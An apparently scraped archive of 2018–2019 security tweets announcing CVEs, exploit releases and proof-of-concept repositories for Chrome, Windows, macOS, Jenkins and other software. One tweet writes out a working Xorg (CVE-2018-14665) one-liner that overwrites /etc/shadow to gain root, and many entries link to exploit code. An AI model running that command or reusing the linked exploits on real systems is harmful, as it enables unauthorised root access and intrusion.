</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1117254715820081152 _at Sun Apr 14 02:34:16 +0000 2019_**
<blockquote>
CVE-2019-8513: Command injection in macOS TimeMachine allows reliable local root privilege escalation exploit
https://t.co/riVPQHoeSq
</blockquote>

* https://medium.com/@CodeColorist/rootpipe-reborn-part-i-cve-2019-8513-timemachine-root-command-injection-47e056b3cb43

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---
# securisec
**https://twitter.com/securisec/status/1116980875449778176 _at Sat Apr 13 08:26:07 +0000 2019_**
<blockquote>
"RT RT CodeColorist: Got someone asking for the PoC of CVE-2018-8142, the LPE for Microsoft Autoupdate Helper 3.18(180410) (affects MS Office 2016 and SkypeForBusiness for macOS, writeup: https://t.co/jreWCUS2i9), and here you are: https://t.co/52PhdWQnEk"
</blockquote>

* https://medium.com/0xcc/cve-2018-8412-ms-office-2016-for-mac-privilege-escalation-via-a-legacy-package-7fccdbf71d9b
* https://github.com/ChiChou/CVE-2018-8142-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# CodeColorist
**https://twitter.com/CodeColorist/status/1116933653903237123 _at Sat Apr 13 05:18:29 +0000 2019_**
<blockquote>
Got someone asking for the PoC of CVE-2018-8142, the LPE for Microsoft Autoupdate Helper 3.18(180410) (affects MS Office 2016 and SkypeForBusiness for macOS, writeup: https://t.co/wnCtrURWmd), and here you are: https://t.co/Xo7HKq2WW4
</blockquote>

* https://medium.com/0xcc/cve-2018-8412-ms-office-2016-for-mac-privilege-escalation-via-a-legacy-package-7fccdbf71d9b
* https://github.com/ChiChou/CVE-2018-8142-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1115133917223432193 _at Mon Apr 08 06:06:58 +0000 2019_**
<blockquote>
Pwn2Own 2018: Safari RCE, sandbox escape + LPE to kernel for #macOS 10.13.3 full #exploit chain details -  by @5aelo https://t.co/FWwQbHiVPe
</blockquote>

* https://github.com/saelo/pwn2own2018

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---
# _simo36
**https://twitter.com/_simo36/status/1113766626401320960 _at Thu Apr 04 11:33:51 +0000 2019_**
<blockquote>
powerd exploit : Sandbox escape to root for Apple iOS &lt; 12.2 on A11 devices
https://t.co/rfxH9bmsGN
</blockquote>

* https://github.com/0x36/powend

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>219</code></td>
<td>Favorites: <code>654</code></td>
</tr></table>

---
# _sinn3r
**https://twitter.com/_sinn3r/status/1109141908729880577 _at Fri Mar 22 17:16:52 +0000 2019_**
<blockquote>
CVE-2019-5786 Google Chrome FileReader use-after-free exploit: https://t.co/Lmt21ZMyzz
</blockquote>

* https://github.com/exodusintel/CVE-2019-5786

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1109078380232597504 _at Fri Mar 22 13:04:26 +0000 2019_**
<blockquote>
CVE-2019-0604: Details of a Microsoft SharePoint RCE Vulnerability https://t.co/LVNDwmuMSr
</blockquote>

* https://www.thezdi.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---
# RanchoIce
**https://twitter.com/RanchoIce/status/1107925785866723328 _at Tue Mar 19 08:44:26 +0000 2019_**
<blockquote>
Analysis of CVE-2019-5786 Chrome FileReader Use-After-Free
https://t.co/gfc27CTMpB
</blockquote>

* https://weibo.com/ttarticle/p/show?id=2309404351596157885398

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# 360CoreSec
**https://twitter.com/360CoreSec/status/1106115047787393025 _at Thu Mar 14 08:49:12 +0000 2019_**
<blockquote>
Microsoft fixed a Windows 0day (CVE-2019-0808) in Patch Tuesday. Our team constructed the POC and reproduced the vulnerability triggering process. Click here to read more: https://t.co/aE6l1nPwnw
</blockquote>

* http://blogs.360.cn/post/RootCause_CVE-2019-0808_EN.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>311</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1103233119434489857 _at Wed Mar 06 09:57:27 +0000 2019_**
<blockquote>
⚠️ Important — Update your #Google Chrome immediately to patch a new high-severity 0-day RCE #vulnerability (CVE-2019-5786) that hackers are actively exploiting in the wild

https://t.co/vrorvFYuU8

Patched Chrome version 72.0.3626.121 has been released for Windows, macOS, Linux https://t.co/IoW8ZjQgZZ
</blockquote>

* https://thehackernews.com/2019/03/update-google-chrome-hack.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>65</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>642</code></td>
<td>Favorites: <code>505</code></td>
</tr></table>

---
# cBekrar
**https://twitter.com/cBekrar/status/1103138159133569024 _at Wed Mar 06 03:40:07 +0000 2019_**
<blockquote>
Google discovered a Chrome RCE #0day in the wild (CVE-2019-5786). Reportedly, a full chain with a sandbox escape: https://t.co/Nxfrvr5wIh 

In 2019, I expect epic 0days to be found in the wild: Android, iOS, Windows, Office, virtualization, and more. Stay safe and enjoy the show.
</blockquote>

* https://chromereleases.googleblog.com/2019/03/stable-channel-update-for-desktop.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>163</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1100557747483856896 _at Wed Feb 27 00:46:29 +0000 2019_**
<blockquote>
[PoC] Jenkins RCE Proof-of-Concept: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative) 

https://t.co/6O8FddvJ4W
</blockquote>

* https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>6</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1100557746066272257 _at Wed Feb 27 00:46:28 +0000 2019_**
<blockquote>
[PoC] Jenkins RCE PoC. From unauthenticated user to remote code execution - it's a hacker's dream! (Chaining CVE-2019-1003000, CVE-2018-1999002, and more)

https://t.co/5VaYi00nbS
</blockquote>

* https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# cnotin
**https://twitter.com/cnotin/status/1100019285290815488 _at Mon Feb 25 13:06:49 +0000 2019_**
<blockquote>
Do you want to #exploit misconfigured #Splunk Universal Forwarders (HTTPS/8089)? 💣

I offer you two tools for Remote Code Execution #RCE and Local Privilege Escalation #LPE. Python and C# 😎

📄 https://t.co/0SL1duDYyv
👨‍💻  https://t.co/YnPETBdjkj https://t.co/cpWA7rQrg3
</blockquote>

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://github.com/cnotin/SplunkWhisperer2

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>619</code></td>
</tr></table>

---
# XssPayloads
**https://twitter.com/XssPayloads/status/1098135934665719808 _at Wed Feb 20 08:23:03 +0000 2019_**
<blockquote>
Microsoft Edge RCE PoC (CVE-2018-8495). Nice payload by @kmkz_security 
https://t.co/JBz1wmms6W

Initial  writeup: https://t.co/Jd5BrMN2zv
</blockquote>

* http://bit.ly/2XdzMNm
* http://bit.ly/2EkFPIs

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>137</code></td>
<td>Favorites: <code>256</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/1096356055787978752 _at Fri Feb 15 10:30:27 +0000 2019_**
<blockquote>
Ultra awesome Talk (RCE in chrome) by @_niklasb at @offensive_con very thank you!

PoC
https://t.co/z39pYbMk8A

#offensivecon19 #infosec #pentest #exploitDev https://t.co/yMRIM1yFJl
</blockquote>

* https://github.com/niklasb/hack2win-chrome

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1095474309017915392 _at Wed Feb 13 00:06:42 +0000 2019_**
<blockquote>
[PoC] [CVE-2019-2000] Android - binder Use-After-Free via fdget() Optimization Exploit
https://t.co/m7z3sqQMrX

Proof of Concept:
https://t.co/po4nt1lOPl
</blockquote>

* https://0day.today/exploit/32168
* https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46356.zip

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1095474307621302272 _at Wed Feb 13 00:06:42 +0000 2019_**
<blockquote>
[PoC] [CVE-2019-1999] Android - binder Use-After-Free of VMA via race Between reclaim and munmap Exploit
https://t.co/GFjkhgNGsA
Proof of Concept:
https://t.co/hBkqZW1eqt
</blockquote>

* https://0day.today/exploit/32167
* https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46357.zip

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# lavados
**https://twitter.com/lavados/status/1095189185827405829 _at Tue Feb 12 05:13:44 +0000 2019_**
<blockquote>
Finally, our SGX Malware paper is on #arXiv (https://t.co/IjwUCFRNy9) and the PoC on #Github (https://t.co/P6ppbX5A5s) for everyone to try.
Not side channels in SGX but this time we can hide real malware in SGX.
</blockquote>

* https://arxiv.org/abs/1902.03256
* https://github.com/sgxrop/sgxrop

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>244</code></td>
<td>Favorites: <code>405</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1094212733871030272 _at Sat Feb 09 12:33:39 +0000 2019_**
<blockquote>
Google reveals details about CVE-2018-18354, a remote code execution in Chrome, patched in December (Chrome 71)

https://t.co/4pLAMCuZDs https://t.co/GINXF8wInO
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=889459

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1090028823280644096 _at Mon Jan 28 23:28:17 +0000 2019_**
<blockquote>
[PoC] [CVE-2018-18354] Chrome remote code execution attack chain

Ignore Sandbox , Ignore Applock , Ignore download restriction 
combined 3 bugs into logical vulnerability attack chain

https://t.co/IUWnx1mgZM https://t.co/M72aT42a5J
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=889459

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---
# n0x08
**https://twitter.com/n0x08/status/1082712033974349824 _at Tue Jan 08 18:53:59 +0000 2019_**
<blockquote>
Happy 1st Patch Tuesday of 2019! This is the largest January update I've seen in the 3ish years I've worked in MSRC and all the usual suspects are represented plus some Hyper-V fixes and this months highest CVSS score: CVE-2019-0547 which is a.....
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# GuidoVranken
**https://twitter.com/GuidoVranken/status/1082642178755751938 _at Tue Jan 08 14:16:24 +0000 2019_**
<blockquote>
Full disclosure -- ZeroMQ libzmq remote code execution exploit

https://t.co/xaXlEGa51S
</blockquote>

* https://github.com/zeromq/libzmq/issues/3351

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1081109879031513088 _at Fri Jan 04 08:47:35 +0000 2019_**
<blockquote>
Exploit/writeup for Google Chrome V8 Remote Code Execution Vulnerability by Samuel Gross (CVE-2018-17463):
https://t.co/9gm0qPK4Z3
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=888923

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1079656697197670401 _at Mon Dec 31 08:33:10 +0000 2018_**
<blockquote>
Another 0Day for Windows published by @SandBoxEscaper (Overwriting Files with Arbitrary Data)
https://t.co/yQzulBYe4e &amp;&amp; https://t.co/ULeoEqX9MS
</blockquote>

* https://www.bleepingcomputer.com/news/security/windows-zero-day-bug-allows-overwriting-files-with-arbitrary-data/
* https://github.com/SandboxEscaper/randomrepo/blob/master/angrypolarbearbug.rar

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---
# orange_8361
**https://twitter.com/orange_8361/status/1075492505657925632 _at Wed Dec 19 20:46:09 +0000 2018_**
<blockquote>
Have Just reported an interesting pre-auth(with Overall/Read) RCE to Jenkins! (But if this chained with the bug CVE-2018-1000861 I reported before, it could execute arbitrary code without any ACL restrictions)
Will post a blog soon after all the responsible disclosure process :P
</blockquote>

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>135</code></td>
<td>Favorites: <code>556</code></td>
</tr></table>

---
# anttitikkanen
**https://twitter.com/anttitikkanen/status/1075461129659387904 _at Wed Dec 19 18:41:29 +0000 2018_**
<blockquote>
Patch for CVE-2018-8653 Scripting Engine Memory Corruption Vulnerability is out: https://t.co/fTINi4Ol5o Spotted in the wild by @_clem1.
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8653

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# Windowsrcer
**https://twitter.com/Windowsrcer/status/1071141149031559168 _at Fri Dec 07 20:35:25 +0000 2018_**
<blockquote>
CVE-2018-8357: Windows / Microsoft Edge / Internet Explorer Sandbox Escape (EoP) Vulnerability using old but gold XAML extension.

POC:

https://t.co/PkgNWZTbeJ

Figure out XAML part yourself ;-) one can find pretty easily, code says itself.
</blockquote>

* https://pastebin.com/raw/wfNjzQM9

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1070643411785564161 _at Thu Dec 06 11:37:35 +0000 2018_**
<blockquote>
Researchers spotted a new #Adobe Flash Player zero-day exploit (CVE-2018-15982) that is leveraging #Microsoft Office docs in a targeted campaign against Russian State Healthcare Institution.

https://t.co/RmVtN594z0

Adobe has yesterday released an emergency update to patch it. https://t.co/igRAJgSMLn
</blockquote>

* https://thehackernews.com/2018/12/flash-player-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>171</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1070496866813394944 _at Thu Dec 06 01:55:16 +0000 2018_**
<blockquote>
[CVE-2018-8021] Apache Superset Remote Code Execution Proof-Of-Concept and Exploit
https://t.co/lKEUjqSZpP
</blockquote>

* https://github.com/r3dxpl0it/Apache-Superset-Remote-Code-Execution-PoC-CVE-2018-8021

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ScottyBauer1
**https://twitter.com/ScottyBauer1/status/1069717108672598019 _at Mon Dec 03 22:16:47 +0000 2018_**
<blockquote>
The last 3 public security bugs I will have for awhile were released today:
Bluetooth Heap info disclosure: CVE-2018-9566
Bluetooth RCE: CVE-2018-9555 
NFC RCE: CVE-2018-9558
https://t.co/IVFwLVgFF5:
https://t.co/ojRXHFxpoV

https://t.co/OMfw5rFpl8

https://t.co/gLarrCPPZX
</blockquote>

* https://source.android.com/security/bulletin/2018-12-01
* https://android.googlesource.com/platform/system/bt/+/8c1d4c1ddd80e60b816ea8c2fff79806fe5f4edf%5E%21/#F0
* https://android.googlesource.com/platform/system/bt/+/82ef3ceb978fd5d95a310ff555d42b271dae530a%5E%21/#F0
* https://android.googlesource.com/platform/system/nfc/+/31d0af9321bc78b264b7774d2825cb084980ea2e%5E%21/#F0

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>138</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1069495930158804992 _at Mon Dec 03 07:37:54 +0000 2018_**
<blockquote>
[Sandbox Escape] Detail/PoC of Apple iOS/macOS QuartzCore Heap-based Buffer Overflow Vulnerability (CVE-2018-4415) by securiteam SSD:
https://t.co/8yyVSXceM6
</blockquote>

* https://blogs.securiteam.com/index.php/archives/3796

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1069354819284946946 _at Sun Dec 02 22:17:11 +0000 2018_**
<blockquote>
GitHub - r3dxpl0it/Apache-Superset-Remote-Code-Execution-PoC-CVE-2018-8021-: CVE-2018-8021 Proof-Of-Concept and Exploit https://t.co/sSKvdlk9oY
</blockquote>

* https://github.com/r3dxpl0it/Apache-Superset-Remote-Code-Execution-PoC-CVE-2018-8021-/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1060419986202746880 _at Thu Nov 08 06:33:21 +0000 2018_**
<blockquote>
Google Chrome on iOS Iframe Sandbox Escape Vulnerability (CVE-2018-17472):
https://t.co/93o1jPPS9m
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=822518

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# _Icewall
**https://twitter.com/_Icewall/status/1058019779209056262 _at Thu Nov 01 15:35:47 +0000 2018_**
<blockquote>
Promised, full exploitation  process of : TALOS-2018-0636 (CVE-2018-3971) -HitmanPro.Alert hmpalert Privilege Escalation Vulnerability https://t.co/sAlTcjUM7s . A.k.a how to use 0day in anti-0day product bypassing its LPE protection to gain SYSTEM.
</blockquote>

* https://blog.talosintelligence.com/2018/11/TALOS-2018-0636.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>175</code></td>
<td>Favorites: <code>222</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at Thu Oct 25 21:14:26 +0000 2018_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>434</code></td>
<td>Favorites: <code>557</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at Thu Oct 25 20:23:03 +0000 2018_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at Thu Oct 25 17:53:49 +0000 2018_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>65</code></td>
<td>Replies: <code>26</code></td>
<td>Retweets: <code>966</code></td>
<td>Favorites: <code>1400</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at Thu Oct 25 14:33:50 +0000 2018_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---
# AttackDetection
**https://twitter.com/AttackDetection/status/1050736465645326341 _at Fri Oct 12 13:14:29 +0000 2018_**
<blockquote>
Microsoft #Windows Shell #RCE via MS Edge 
CVE-2018-8495
Affected: Win 10, Server 2016
#Suricata rule: https://t.co/SXqyUTbA8w
</blockquote>

* https://github.com/ptresearch/AttackDetection/blob/master/CVE-2018-8495/cve-2018-8495.rules

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>17</code></td>
</tr></table>

---
# Nicochaa_
**https://twitter.com/Nicochaa_/status/1047805644332564481 _at Thu Oct 04 11:08:27 +0000 2018_**
<blockquote>
"virtualenv Sandbox Escape". CVE-2018-17793. What the fuck... Soon we will have "Bash Code Execution", "cat File Disclosure" or "Firefox Server Side Request Forgery".

https://t.co/OpvKstPwyQ
</blockquote>

* https://github.com/pypa/virtualenv/issues/1207

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1045507689034309632 _at Fri Sep 28 02:57:12 +0000 2018_**
<blockquote>
[PoC] [WIP] CVE-2018-8440 ALPC Scheduler
This adds a local privilege escalation exploit for Windows 8 and later targeting the Windows ALPC scheduler.
https://t.co/bZue1dJBH9
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/10643

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# pozdnychev
**https://twitter.com/pozdnychev/status/1044636342590873600 _at Tue Sep 25 17:14:47 +0000 2018_**
<blockquote>
Qualys Security Advisory Team - Mutagen Astronomy:  Integer overflow in Linux's create_elf_tables(), CVE-2018-14634.  LPE (full root) from a suid-root binary.  RHEL, CentOS and Debian 8 are vulnerable.  Advisory, PoC and exploit at: https://t.co/mpqAXepCAQ
</blockquote>

* https://www.openwall.com/lists/oss-security/2018/09/25/4

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---
# matteyeux
**https://twitter.com/matteyeux/status/1043066711958872064 _at Fri Sep 21 09:17:38 +0000 2018_**
<blockquote>
CVE-2018-4280: Mach port replacement vulnerability in launchd on iOS 11.2.6 leading to sandbox escape, privilege escalation, and codesigning bypass.
https://t.co/nEnTaaiTeB
</blockquote>

* https://github.com/bazad/blanket

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>255</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1039767580163096576 _at Wed Sep 12 06:48:03 +0000 2018_**
<blockquote>
CVE-2018-8420 Aka #Microsoft XML Core Services MSXML #RCE through web browser PoC (included in yesterday MS patches)
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>156</code></td>
<td>Favorites: <code>250</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1039757886258393093 _at Wed Sep 12 06:09:32 +0000 2018_**
<blockquote>
GitHub - Theropord/CVE-2018-8420 https://t.co/91pxD1wyQp
</blockquote>

* https://github.com/Theropord/CVE-2018-8420/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1039563472827244544 _at Tue Sep 11 17:17:00 +0000 2018_**
<blockquote>
Strange. @Adobe's advisory says CVE-2018-15967 is privilege escalation (information disclosure) issue and important in severity.

Whereas, @Microsoft's advisory says CVE-2018-15967 is a remote code execution bug with critical severity.
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---
# hajjik666
**https://twitter.com/hajjik666/status/1039206173940043777 _at Mon Sep 10 17:37:14 +0000 2018_**
<blockquote>
POC of CVE-2018-8353 Microsoft Scripting Engine Use After Free #redteam https://t.co/WPqj6IyqLx
</blockquote>

* https://github.com/wherethef2ckisr0da/CVE-2018-8353-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# vysecurity
**https://twitter.com/vysecurity/status/1038120201236111360 _at Fri Sep 07 17:41:57 +0000 2018_**
<blockquote>
CVE-2018-8120 Windows LPE PoC https://t.co/9DukP6tAVo
</blockquote>

* https://github.com/alpha1ab/CVE-2018-8120/tree/master/CVE-2018-8120

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>201</code></td>
</tr></table>

---
# ale_sp_brazil
**https://twitter.com/ale_sp_brazil/status/1035301242271096832 _at Thu Aug 30 23:00:25 +0000 2018_**
<blockquote>
(good slides): 

The Advanced Exploitation of 64-bit Edge Browser Use-After-Free Vulnerability on Windows 10:

https://t.co/Sk5epLIvOd

#exploitation #windows10 #vulnerability
</blockquote>

* https://github.com/mrowensnobody/presentation/blob/master/The%20Advanced%20Exploitation%20of%2064-bit%20Edge%20Browser%20Use-After-Free%20Vulnerability%20on%20Windows%2010.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---
# 0xdea
**https://twitter.com/0xdea/status/1034319786744995841 _at Tue Aug 28 06:00:28 +0000 2018_**
<blockquote>
Microsoft Windows task scheduler contains a local privilege escalation vulnerability in the ALPC interface

Advisory:
https://t.co/vcoUhH0POW

Exploit:
https://t.co/iHVe8yHom3
</blockquote>

* https://www.kb.cert.org/vuls/id/906424
* https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1033953024664920065 _at Mon Aug 27 05:43:05 +0000 2018_**
<blockquote>
[Sandbox Escape] Google Chrome IndexedDBConnection Use-after-free Vulnerability (CVE-2018-6127):
